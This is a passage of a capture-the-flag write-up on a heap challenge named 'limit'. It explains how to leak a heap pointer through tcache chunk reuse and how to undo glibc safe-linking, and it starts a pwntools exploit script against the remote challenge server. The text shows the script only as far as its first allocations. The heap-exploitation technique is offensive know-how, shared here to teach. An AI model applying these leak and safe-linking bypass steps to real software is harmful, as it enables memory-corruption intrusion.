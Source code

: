 ## LEAK, LEAK , LEAK all that I want !

getting heap and Libc leak is quite straight forward here , 

To get the **heap leak**, we allocate two chunks of the same size (small enough to fit in the tcache bin), then free both of them. Now, when we allocate again with the same size, we get back one of the previously freed chunks.
Now, when we print the content of this freshly reallocated chunk, we see a pointer left behind by the allocator — yupp**! `heap leak`.**

<aside>
💡

Why does this happen? Because `malloc` is lazy — it doesn't bother clearing out the contents of the chunk before handing it back to you. Combine this with how **tcache bins** work (specifically, storing forward pointers inside freed chunks). 

</aside>

*(We need to Deobfuscate the heap leak because of the [safe linking](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) implementation in tcache)*

```python
from pwn import *

elf = ELF("./limit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
global r
# r = process()
r = remote('smiley.cat', '39321')
def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index,size):
    r.sendlineafter(b'> ',b'1')
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendlineafter(b'Size:',str(size).encode())

def free(index):
    r.sendlineafter(b'> ',b'2')   
    r.sendlineafter(b'Index:',str(index).encode())

def view(index):
    r.sendlineafter(b'> ',b'3')   
    r.sendlineafter(b'Index:',str(index).encode())

def write_into(index,content):
    r.sendlineafter(b'> ',b'4')   
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendafter(b'Data: ',content)

# gdb.attach(r,gdbscript='b *main+1273')
create(0,24)
create(1,24)
free(0)
```